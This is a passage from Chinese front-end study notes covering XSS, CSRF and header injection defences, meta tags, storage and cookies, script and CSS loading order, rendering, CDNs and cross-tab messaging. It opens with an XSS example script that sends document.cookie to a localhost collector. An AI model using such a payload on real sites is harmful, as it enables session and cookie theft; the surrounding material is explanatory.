```html
<script>document.write(``)</script>

<script>document.body.appendChild(document.createElement("img").src = `http://localhost:4000/cookie?cookie=${document.cookie}`)</script>
```

### CSRF 跨站请求伪造

攻击者通过各种方法伪造一个请求（如获取 cookie），模仿用户提交表单的行为，从而达到修改用保护数据，或执行特定任务的目的。

CSRF 防御：

- 禁止第三方网站携带本网站的 cookie 信息：设置 same-site 属性，有两个值，Strict（禁止本 cookie 作为第三方 cookie）和 Lax（a、link 和 from 的 get 请求可以）。

- 验证 HTTP referer 字段，该字段记录了请求的来源地址。但由于是浏览器提供的，不够安全。

- 添加 token 认证：服务器返回 token 后，保存在其它地方（不保存在 cookie），每次请求带上 token 验证身份。

- 使用 post 请求，增加攻击成本。

### HTTP HEADS 攻击

HTTP 协议在 response header 和 content 之间，有一个空行，即两组 CRLF 字符。这个空行标识着 headers 的结束和 content 的开始。

攻击者可以利用这一点，只有想办法将任意字符注入到 headers 中，该攻击就可以发生。

例如在重定向时，将恶意代码拼接到 URL 中，从而将代码写入空行，实现攻击。

防御：过滤 headers 中的非法字符。

## 8、meta 标签

meta 标签主要用来提供关于 HTML 文档的元信息，通常用于指定字符编码、页面描述、关键词、文档作者、视口设置、缓存设置、定义页面使用语言等。

它对于提升用户体验、优化搜索引擎排名都有作用。

meta 标签主要有 name 和 http-equiv 属性，都需要和 content 属性配合使用。

### name 属性

meta 标签的 name 属性主要用于定于页面的描述性信息，这些信息不会直接影响页面的渲染，但可以被搜索引擎识别抓取，从而优化 SEO。

常见的 name 属性值及其作用：

1. description：页面的描述信息，告诉搜索引擎网站的主要内容。

```html
<meta name="description" content="这是一个关于编程教程的网站">
```

2. keywords：为文档定义了一组关键词，搜索引擎会用这些关键词对文档进行分类。

```html
<meta name="description" content="编程,教程,学习">
```

3. author：页面的作者信息。

```html
<meta name="author" content="张三">
```

4. viewport：设置视口，改善网站在各种设备的外观。

```html
<meta name="viewport" content="width=device-width, initial-scale=1.0">
```

5. robots：控制搜索引擎抓取页面的方式。

:::tip 属性说明
all：文件可被检索，且页面上的链接可以查询。

none：文件不可被检索，且页面上的链接不可以查询。

index：文件可被检索。

follow：页面上的链接可以查询。

noindex：文件不可被检索，但页面上的链接可以查询。

nofollow：文件可以检索，但页面上的链接不可以查询。
:::

```html
<meta name="robots" content="index, follow">
```

### http-equiv 属性

http-equiv 用于**模拟 HTTP 响应头的效果**，从而影响浏览器如何处理和显示网页内容。

常见的 http-equiv 属性值及其作用：

1. Content-Type：设置文档的 MIME 类型和字符编码。

```html
<meta http-equiv="Content-Type" content="text/html;charset=UTF-8">
```

2. Refresh：设置页面刷新和重定向（跳转）。

```html
<!-- 页面将在 5 秒后自动刷新并跳转到 https://example.com -->
<meta http-equiv="Refresh" content="5;url=https://example.com">
```

3. Expires：设置页面内容的过期时间，用于缓存控制。

```html
<!-- 必须使用GMT的时间格式 -->
<meta http-equiv="Expires" content="Wed, 21 Oct 2023 07:28:00 GMT">
```

4. Pragma：控制缓存行为，通常和 Expires 属性一起使用。

```html
<meta http-equiv="Pragma" content="no-cache">
```

5. Set-Cookie：设置 HTTP cookie。

```html
<meta http-equiv="Set-Cookie" content="name=value;expires=DATE;path=PATH">
```

:::warning 注意事项
http-equiv 所说的模拟 HTTP 响应头的效果，并不是指它能直接修改实际发送到浏览器响应报文的头部信息，而是在浏览器解析 HTML 文档时起作用。

当浏览器加载一个包含 http-equiv 属性的 meta 标签的页面时，会根据这些标签提供的信息来调整处理页面的方式。例如，如果 meta 标签设置了 Content-Type 和 charset，浏览器会根据这些信息来解析页面内容和确定字符编码。

这种模拟的效果是在客户端发生的，不会影响服务器实际发送给客户端的 HTTP 响应报文。

因此，如果想修改真正的响应头部，需要在服务端中设置，而非依赖 http-equiv 属性。
:::

:::tip 为什么浏览器需要模拟HTTP响应头部
浏览器模拟HTTP响应头部的行为通常不是其标准功能的一部分，而是特定场景下的需求驱动。以下是一些可能导致浏览器模拟HTTP响应头部的场景：

- 测试和调试：在开发和测试阶段，开发者可能需要模拟不同的HTTP响应头部来测试客户端应用程序的行为。例如，模拟不同的缓存控制策略或内容类型，以确保应用程序能够正确处理各种响应。

- 用户代理模拟：在某些情况下，开发者可能需要模拟不同的用户代理（User-Agent）来测试网站在不同浏览器或设备上的显示效果。这可以通过设置自定义的HTTP头部字段来实现，尽管这并不是模拟HTTP响应头部的标准做法。

- 绕过限制：有时，网站可能会根据用户代理设置访问限制，模拟不同的用户代理可以帮助绕过这些限制，访问被限制的内容。

- 特殊需求：在某些特殊情况下，如进行网络抓包分析或开发特定的网络应用时，可能需要模拟HTTP响应头部来满足特定的需求。
:::

[关于meta标签中的http-equiv属性使用介绍](https://www.cnblogs.com/yumo1627129/p/7198968.html){link=static}

[href标签中target的几个属性值](https://www.cnblogs.com/wang-bo/p/6763795.html){link=static}

## 9、iframe

[Web前端之iframe详解](https://www.cnblogs.com/lvhw/p/7107436.html){link=static}

[top.location和window.location.href的区别](https://www.cnblogs.com/Janejxt/p/9240440.html){link=static}

[如何在window的location使用target](https://www.cnblogs.com/orac/p/6865728.html){link=static}

[iframe/frameset/frame的区别](https://www.cnblogs.com/nyw1983/p/11427157.html){link=static}

## 9、本地存储和cookie

一、本地存储

localStorage 是 HTML5 标准中新加入的技术，它不是什么划时代的新东西。

早在 IE6 的时候，就有一个叫 userData 的东西用于本地存储，而当时考虑到浏览器的兼容性，更为通用的方案是使用 Flash。

如今，localStorage 已经被绝大多数浏览器所支持。如果你的网站需要支持 IE6+，那么使用 userData 也是种不错的选择。

二、cookie

cookie 是小甜饼的意思，顾名思义，cookie 确实非常小，大小限制在 4KB 左右。

它的主要用途是保存登录信息，比如登录网站常见的「记住密码」，就是通过在 cookie 中存入一段辨别用户身份的数据来实现的。

三、区别

- 请求是否携带。cookie 在浏览器和服务器之间来回传递，而 sessionStorage 和 localStorage 不会自动把数据发给服务器，仅在本地保存。

- cookie 数据存在路径的概念，可以限制 cookie 只属于某个路径下。

- 存储大小不同。cookie 数据不能超过 4KB，因为每次 HTTP 请求都会携带 cookie，因此 cookie 只适合保存很小的数据，如会话标识。sessionStorage 和 localStorage 存储大小比 cookie 大很多，可以达到 5M。

- 数据有效期不同。sessionStorage 只在当前浏览器窗口关闭前有效，在窗口关闭后就会失效，不能够持久保持。localStorage 始终有效，窗口或浏览器关闭也一直保存，因此用作持久数据。cookie 只在设置的过期时间之前有效，即使窗口或浏览器关闭。

- 作用域不同。sessionStorage 只在当前窗口共享。localStorage 和 cookie 在同一个浏览器（Chrome和Firefox不会共享）的所有同源窗口共享。

## 10、HTML、css、JS 加载顺序

正常的加载顺序：

- 浏览器一遍下载 HTML，一边解析。

- CSS 文件的加载是与 DOM 的加载并行的。

- 加载过程中发现 script 标签，暂停解析，把控制权交给 JS 引擎。

- 如果 script 标签引用了外部脚本，就下载该脚本，否则直接执行。

- 执行完毕，控制权交还给渲染引擎，恢复往下解析 HTML 网页。

多个 link 文件：

并行加载，先加载完的先解析，若有相同的选择器，后面的会把前面的合并。

多个 script 文件：

顺序下载，JS 脚本不会与 DOM 并行加载，倘若 JS 脚本过大，则可能导致浏览器页面显示滞后，出现「假死」状态，称为「阻塞效应」。

[html,css,js加载顺序](https://www.cnblogs.com/yingsong/p/6170780.html){link=static}

## 11、script 标签问题

### defer、async 属性

defer：

JS 脚本**并行加载**，等页面解析完成后，再按照书写**顺序执行**。在 DOMContentLoaded 事件触发之前执行 JS 脚本，不会阻塞页面的解析。

对于内置而不是连接外部脚本的 script 标签，以及动态生成的 script 标签，defer 属性不起作用。

async：

JS 脚本**并行加载**，下载完成后，**马上执行脚本**，阻塞 HTML 解析。执行完成后恢复解析。

使用该属性，一般代表这个文件不依赖于别的 JS 和 CSS 文件，且 JS 脚本不会修改 DOM 和样式。

如果同时使用 defer 和 async 属性，则 **async 优先**。



### 为何 JS 加载执行阻塞 HTML 解析

1、为了防止 JS 修改 DOM 树，需要重新构建 DOM 树的情况出现。

JS 中可能会创建、删除 DOM 节点，这些操作会对 DOM 树产生影响。如果不阻塞 HTML 解析，等浏览器解析完标签生成 DOM 树后，JS 修改了某些节点，浏览器又需要重新解析生成 DOM 树，性能会降低。

2、避免 DOM 操作顺序不可控。

例如，假设有一个脚本在解析到某个元素之前插入了一个新的元素，而后续的脚本依赖于这个新插入的元素。如果解析过程不被阻塞，后续的脚本可能会在新元素插入之前执行，导致错误。

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>Example</title>
</head>
<body>
  <div id="header">Header</div>
  <script>
    document.getElementById('header').innerText = 'New Header';
    document.createElement('div').id = 'newElement';
    document.body.appendChild(document.getElementById('newElement'));
  </script>
  <div id="content">Content</div>
  <script>
    document.getElementById('newElement').innerText = 'This is a new element';
  </script>
</body>
</html>
```

第二个 script 标签尝试修改 `#newElement` 的内容。如果第一个 script 标签没有阻塞解析，`#newElement` 可能还没有被添加到 DOM 中，导致报错。

3、避免资源加载顺序混乱

JavaScript 脚本可能依赖于其他资源，如其他脚本文件、CSS 文件或数据文件。如果这些资源的加载顺序不可控，可能会导致脚本执行时所需的资源尚未加载完毕。

例如，假设有一个脚本依赖于某个外部库，如果这个库的加载被延迟，脚本可能会在库加载之前执行，导致错误。

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>Document</title>
</head>
<body>
  <script src ="j1.js" ></script>
  <script src ="j2.js" ></script>
</body>
</html>
```

j2 脚本依赖于 j1 脚本，如果不阻塞解析，则可能出现先加载执行 j2 脚本的情况，而此时 j1 脚本还未加载完毕，导致报错。

### script 标签最佳实践

1、将 JS 脚本放在页面底部，或者在 JS 代码中使用 window.onload 事件。

两个好处：

- 避免 JS 脚本的下载和执行阻塞页面的解析，阻塞其它资源的加载。让静态 HTML 页面快速显示出来。

- 在 DOM 结构生成之前调用 DOM 会报错，如果 JS 脚本放到网页最后，就可以避免这个问题。

2、使用 defer 和 async 属性。

让 JS 脚本异步加载，避免阻塞页面解析。

若 JS 执行顺序有要求，使用 defer，否则可以使用 async。

## 12、DOMContentLoaded 和 load 事件

[DOMContentLoaded](https://developer.mozilla.org/zh-CN/docs/Web/API/Document/DOMContentLoaded_event)：

> The DOMContentLoaded event fires when the HTML document has been completely parsed, and all deferred scripts (`<script defer src="…">` and `<script type="module">`) have downloaded and executed. It doesn't wait for other things like images, subframes, and async scripts to finish loading.

HTML 加载和解析完成，并且所有延迟脚本（`<script defer src='...'`）下载执行完成后，触发 DOMContentLoaded 事件。

DOMContentLoaded 不会等待样式表加载，但延迟脚本会等待。因此 CSS 的加载本身不会直接阻塞 DOM 的加载解析，但会通过阻塞 JS 间接阻塞 DOM。

[load](https://developer.mozilla.org/zh-CN/docs/Web/Events/load)：

> The load event is fired when the whole page has loaded, including all dependent resources such as stylesheets, scripts, iframes, and images, except those that are loaded lazily.

load 在整个页面所有相关资源，比如 CSS、图片等，都加载完成之后触发。

HTML 解析过程与 DOMContentLoaded 触发时机；异步脚本、延迟脚本与 DOMContentLoaded 的关系详见：

[load/domContentLoaded事件、异步/延迟Js 与DOM解析](https://www.cnblogs.com/Bonnie3449/p/8419609.html){link=static}

## 13、link 和 @import 的区别

- link 属于 HTML 标签，而 @import 则是 CSS 提供的方式。

- 当页面被加载时，link 引用的 css 会同时被加载，而 @import 引用的 css 会等页面全部被下载完才会被加载。

- @import 是 css2.1 提出的，老浏览器不兼容，IE5 以上才能识别。link 没有限制。

- DOM 可控性区别：link 可以通过 js 来操作 DOM，来插入 link 标签改变样式；DOM 是基于文档的，@import 是一种 css 语法，所以不能操作 DOM。

[link和@import的区别](https://blog.csdn.net/weixin_46661988/article/details/110245094){link=static}

## 14、CSS 如何阻塞 DOM 树的解析和渲染

结论：

- css 加载不会阻塞 DOM 树解析，但会阻塞 DOM 树渲染。

- css 加载会阻塞 js 执行，而 js 会阻塞 DOM 树解析，因此如果 css 后面有 js，css 会通过阻塞 js 间接阻塞 DOM 树的解析。

[css加载会造成阻塞吗？](https://juejin.cn/post/6844903667733118983){link=static}

测试浏览器：Chrome 130.0.6723.92（正式版本）(arm64)。

### css 是否阻塞 DOM 的解析与渲染

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <title>css阻塞</title>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <style>
      h1 {
        color: red !important
      }
    </style>
    <script>
      function h () {
        console.log(document.querySelectorAll('h1'))
      }
      setTimeout(h, 0)
    </script>
    <link href="https://cdn.bootcss.com/bootstrap/4.0.0-alpha.6/css/bootstrap.css" rel="stylesheet">
  </head>
  <body>
    <h1>这是红色的</h1>
  </body>
</html>
```

将浏览器网络速度调成 3G 的慢速，运行上述 HTML 代码。可以看到：

- bootstrap.css 还没下载完成时，控制台已经打印了 h1。因此可以得知 css 的加载不会阻塞 DOM 的解析。

- bootstrap.css 还没下载完成时，页面是空白的，下载完成之后页面才显示出 h1 的红色字体。因此可得知 css 的加载会阻塞 DOM 的渲染。

:::warning css 为什么要阻塞 DOM 树的渲染呢？
因为 css 可能会修改 DOM 节点的样式，如果 css 加载不阻塞 DOM 的渲染，那么当 css 加载解析完成后，DOM 树可能又需要重新渲染一次，造成性能损耗。

因此，浏览器选择先把 DOM 树解析完，把可以做的工作先做好，等待 css 加载完成后，再根据最终的样式渲染 DOM 树。

另外，如果 css 加载不阻塞 DOM 树渲染，那么页面可能一开始会是一种样式，等到 css 加载完之后又变成另一个样式，影响了用户体验。
:::

### css 加载是否阻塞 js 执行

css 加载不会阻塞后续 js 代码的下载，但会阻塞执行。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <title>css阻塞</title>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <script>
      console.log('before css')
      var startDate = new Date()
    </script>
    <link href="https://cdn.bootcss.com/bootstrap/4.0.0-alpha.6/css/bootstrap.css" rel="stylesheet">
  </head>
  <body>
    <h1>这是标题</h1>
    <script>
      var endDate = new Date()
      console.log('after css')
      console.log('经过了' + (endDate -startDate) + 'ms')
    </script>
  </body>
</html>
```



同样地，将浏览器网络速度调成 3G 的慢速，运行上述 HTML 代码。可以看到：

- `before css` 先打印出来。在 bootstrap.css 下载完之前，都没有打印 `after css`，页面也没有展示 h1 标题。

- bootstrap.css 下载完成后，才打印出 `after css`，并且打印出经过的时间。因此可得知，css 加载会阻塞后面的 js 语句的执行。

:::warning css 加载为什么阻塞 js 执行？
JavaScript 代码可能依赖于某些样式属性，如果在样式表未加载完毕时执行 JavaScript，可能会导致脚本无法正确获取或设置这些属性。

例如，假设 JavaScript 代码需要获取某个元素的高度或宽度，如果样式表未加载完毕，这些属性可能还未被正确设置，导致脚本返回错误的结果。
:::

### css 加载速度优化

为了避免让用户看到长时间的白屏时间，我们应该尽可能的提高css加载速度。

- 使用CDN。CDN会根据你的网络状况，挑选最近的一个具有缓存内容的节点为你提供资源，因此可以减少加载时间。

- 对css进行压缩。可以用很多打包工具，比如webpack,gulp等，也可以通过开启gzip压缩。

- 合理的使用缓存。设置cache-control,expires,以及E-tag都是不错的，不过要注意一个问题，就是文件更新后，你要避免缓存而带来的影响。其中一个解决防范是在文件名字后面加一个版本号。

- 减少http请求数。将多个css文件合并，或者是干脆直接写成内联样式(内联样式的一个缺点就是不能缓存)。

## 15、浏览器渲染页面流程

webkit 渲染流程：


Gecko 渲染流程：



- 解析 HTML，生成 DOM 树。

- 解析 CSS，生成 CSSOM 树（CSS 对象模型树）。

- 将 DOM 树和 CSSOM 树合并，生成 render 渲染树。

- 根据渲染树进行布局，即重排操作，计算元素在屏幕上显示的位置和尺寸。

- 绘制页面元素，显示到屏幕上。

可以看出：

1. DOM解析和CSS解析是两个并行的进程，所以这也解释了为什么CSS加载不会阻塞DOM的解析。

2. 由于Render Tree是依赖于DOM Tree和CSSOM Tree的，因此要等到CSSOM Tree构建完成，也就是CSS资源加载完成(或者CSS资源加载失败)后，才能开始渲染。因此，CSS加载是会阻塞DOM渲染。

3. 由于js可能会操作之前的DOM节点和css样式，因此浏览器会维持html中css和js的顺序。因此，样式表会在后面的js执行前先加载执行完毕。所以css会阻塞后面js的执行。

## 16、CDN是什么

### CDN 概述

CDN的全称是 Content Delivery Network，即内容分发网络。

CDN是构建在现有网络基础之上的智能虚拟网络，依靠部署在各地的边缘服务器，通过中心平台的负载均衡、内容分发、调度等功能模块，使用户就近获取所需内容，降低网络拥塞，提高用户访问响应速度和命中率。

说人话，CDN 就是把源站点的内容发布到各地的缓存服务器上，使用户可以就近获取所需要的内容。这些缓存服务器就是 CDN 节点。

CDN 的作用：

- 加快网站响应速度，提升用户体验。

- 网站不容易宕机，多个服务器可以起到负载均衡的作用，不会让大量流量涌入某一个服务器。

### CDN 工作原理

CDN 的工作原理就是将源站的资源缓存到位于全国各地的 CDN 节点上。

用户请求资源时，就近返回节点上缓存的资源，而不需要每个用户的请求都回您的源站获取，避免网络拥塞、分担源站压力，保证用户访问资源的速度和体验。

### CDN 与传统网站访问的区别

CDN 主要功能是在不同的地点缓存内容，通过负载均衡技术，将用户的请求定向到最合适的缓存服务器上去获取内容。

比如说，北京的用户，让他访问北京的节点，深圳的用户，让他访问深圳的节点。通过就近访问，加速用户对网站的访问。解决网络拥堵状况，提高用户访问网络的响应速度。

传统网站访问流程：



CDN 网站访问流程：



CDN 网络在用户和服务器之间增加缓存层，将用户的访问请求引导到最优的缓存节点而不是服务器源站点，从而加速访问速度。

CDN 工作流程：



[什么是CDN？它解决了什么难题？5分钟让你明明白白！](https://cloud.tencent.com/developer/article/1779335){link=static}

## 17、从输入URL到渲染页面的流程

主要流程：

1、DNS 域名解析

2、TCP 三次握手建立连接

3、发送 HTTP 请求

4、服务器处理请求并返回 HTTP 报文

5、浏览器解析渲染页面

6、缓存（要谈及浏览器缓存，详见第6题）

7、断开连接

详细内容参考：

[从URL输入到页面展现到底发生什么？](https://segmentfault.com/a/1190000017184701){link=static}

## 18、实现多页通讯

多页通讯，是指浏览器不同标签页面之间的通信。

### cookie+setInerval

cookie 是在同一个浏览器下的同源窗口共享，因此可以用于不同标签页之间的通信。

优点：兼容性良好。

缺点：

- cookie 空间有限，容量为 4k 左右。

- 每次 HTTP 请求都会把 cookie 带上，包括那些只需要本地用到而服务器用不到的，浪费带宽。

- 定时器频率太大影响浏览器性能，太小又可能影响时效性。

发送消息页面：

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Document</title>
</head>
<body>
  <input id="input1" type="text" />
  <input id="input2" type="text" />
  <button id="send">发送</button>
</body>
<script>
  var input1 = document.getElementById('input1');
  var input2 = document.getElementById('input2');
  var send = document.getElementById('send');
  send.onclick = function() {
    var val1 = input1.value.trim();
    var val2 = input2.value.trim();
    // 设置cookie
    document.cookie = `msg1=${val1}`;
    document.cookie = `msg2=${val2}`;
  }
</script>
</html>
```

消息接收页面：

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Document</title>
</head>
<body>
  <h3>msg1：<span id="recMsg"></span></h3>
  <h3>msg2：<span id="recMsg2"></span></h3>
  <script>
    // age=999; msg=000
    // {"age":"999","msg":"000"}
    function getValue(key) {
      // 把cookie转化为JSON字符串，再转化为对象，方便取值
      var cookies = '{"' + document.cookie.replace(/=/g,'":"').replace(/;\s+/g,'","') + '"}';
      cookies = JSON.parse(cookies);
      return cookies[key];
    }
    var recMsg = document.querySelector('#recMsg');
    var recMsg2 = document.querySelector('#recMsg2');
    // 使用定时器，轮询cookie，实现自动刷新页面内容
    setInterval(() => {
      recMsg.innerText = getValue('msg1');
    }, 500)
    setInterval(() => {
      recMsg2.innerText = getValue('msg2');
    }, 500)
  </script>
</body>
</html>
```



:::warning 页面打开注意点
当你在本地文件系统（例如，通过 file:// 协议）打开一个 HTML 文件时，浏览器可能会出于安全原因限制 cookie 的设置。这是一个常见的问题，因为在本地文件系统中运行的页面没有通过 HTTP 服务器提供，因此缺少了一些安全策略，例如跨域限制和安全策略。

也就是说，如果直接打开 HTML 文件，`document.cookie = xxx` 是无法设置 cookie 的，因此需要通过启动本地服务来运行 HTML 文件。

可以使用 vscode 的 Live Server 插件打开 HTML 文件。
:::